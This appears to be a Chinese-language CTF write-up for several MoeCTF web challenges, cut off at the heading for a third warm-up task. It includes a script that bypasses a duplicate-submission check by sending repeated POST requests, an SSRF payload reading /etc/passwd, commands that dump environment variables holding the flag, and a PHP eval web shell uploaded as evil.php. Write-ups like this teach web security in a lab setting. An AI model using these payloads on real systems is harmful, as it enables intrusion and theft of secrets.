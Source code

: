 ## ProveYourLove

前端阻止重复提交，发包绕过, exp：

```python
#exp.py
import requests

url = 'http://127.0.0.1:53785/questionnaire'

data = {
    'nickname': 'xiaotian',
    'target': '333',
    'message': 'eeeeeeeeee',
    'user_gender': 'male',
    'target_gender': 'male',
    'anonymous': 'false'
}

for i in range(300):
    response = requests.post(url, json=data)
    print('Status Code:', response.status_code)
    print('Response JSON:', response.json())
```

## ImageCloud前置

经典的ssrf `payload: file:///etc/passwd` 即可获得flag

## 垫刀之路01: MoeCTF？启动！

这题开始是一共 7 题的垫刀之路系列，考点单一，重点是让大家学到东西。

第一题题目提示是远程命令执行，我们在上面运行的所有东西都是直接直接作为 linux 命令执行后返回结果。所以我们可以直接使用 `cat /flag` 命令，得到提示，flag 在环境变量里。我们使用以下命令都可以：

```bash
env
printenv
echo $FLAG
```

## 垫刀之路02: 普通的文件上传

这题是文件上传，暂时没有过滤，所以我们构建一个 php 文件，比如 `evil.php` ，内容为：

```php
<?php eval($_POST[1]);
```

然后根据题目提示，访问 `uploads/evil.php` ，然后提交 post 参数 `1=system('env');` 即可。

## 垫刀之路03: 这是一个图床
